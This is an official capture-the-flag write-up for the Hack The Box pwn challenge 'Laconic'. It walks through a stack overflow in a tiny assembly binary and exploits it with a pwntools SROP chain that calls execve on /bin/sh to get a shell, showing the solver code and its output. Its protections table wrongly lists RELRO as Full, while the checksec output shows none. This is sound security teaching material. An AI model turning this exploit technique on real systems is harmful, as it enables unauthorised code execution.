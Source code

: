 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="6">Laconic</font>

​		26<sup>th</sup> Dec 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 



# Synopsis

Laconic is a easy easy difficulty challenge that features `SROP`.

# Description

Sir Alaric's struggles have plunged him into a deep and overwhelming sadness, leaving him unwilling to speak to anyone. Can you find a way to lift his spirits and bring back his courage?

## Skills Required

- Basic Assembly.

## Skills Learned

- SROP

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

### Protections 🛡️

As we can see, all protection are disabled and the binary has `RWX` segments:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ❌     | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

```c
 ► 0x43000 <_start>       mov    rdi, 0                 RDI => 0
   0x43007 <_start+7>     mov    rsi, rsp               RSI => 0x7fffffffde50 ◂— 1
   0x4300a <_start+10>    sub    rsi, 8                 RSI => 0x7fffffffde48 (0x7fffffffde50 - 0x8)
   0x4300e <_start+14>    mov    rdx, 0x106             RDX => 0x106
   0x43015 <_start+21>    syscall  <SYS_read>
   0x43017 <_start+23>    ret    
 
   0x43018 <_start+24>    pop    rax
   0x43019 <_start+25>    ret   
```

That's the whole binary, we see there is a huge buffer overflow at `SYS_read` because `rdx` reads up to `0x106` bytes. Luckily, we have a `pop rax` gadget, making it easy to perform [SROP](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming). First of all, we need to find a possible `/bin/sh` address.

```gdb 
pwndbg> find 0x43000, 0x43900, "/bin/sh"
0x43238
1 pattern found.
pwndbg> x/s 0x43238
0x43238:  "/bin/sh"
```

Now that we have this, we can craft the `SROP` chain.

```python
# Srop
frame     = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = binsh           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = rop.syscall[0]
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
pl  = b'w3th4nds'
pl += p64(rop.rax[0])
pl += p64(0xf)
pl += p64(rop.syscall[0])
pl += bytes(frame)
```

```bash
Running solver remotely at 0.0.0.0 1337

[*] Gadgets: 
		pop rax: 0x43018
		syscall: 0x43015
		/bin/sh: 0x43238

[*] Sedning SROP chain..

[+] Done!

Flag -> HTB{XXX}
```

